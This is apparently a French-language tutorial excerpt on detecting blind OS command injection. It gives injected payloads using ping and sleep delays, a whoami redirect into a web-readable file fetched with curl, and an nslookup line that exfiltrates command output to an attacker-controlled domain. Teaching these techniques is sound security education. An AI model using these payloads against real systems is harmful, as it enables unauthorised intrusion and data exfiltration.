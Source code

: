 > L'injection de commande aveugle se produit lorsque il n'y a pas de sortie visible, donc elle n'est pas immédiatement perceptible.

- Pour ce type d'injection de commande, nous devrons utiliser des charges utiles qui entraîneront un certain délai. comme `ping` et `sleep`.

```sh
& ping -c 10 127.0.0.1 &
; sleep 10 ;
```

- Une autre méthode de détection de l'injection de commande aveugle consiste à forcer une sortie en utilisant des opérateurs de redirection tels que `>`.

```sh
& whoami > /var/www/static/whoami.txt &

curl -s https://vulnerable-website.com/whoami.txt
```

- Au cas ou Il n'est pas possible de rediriger la sortie vers un emplacement auquel vous pouvez accéder. On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système que nous contrôlons, en utilisant les techniques `OAST` et le canal hors bande fournit également un moyen simple d'exfiltrer la sortie des commandes injectées :

```sh
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

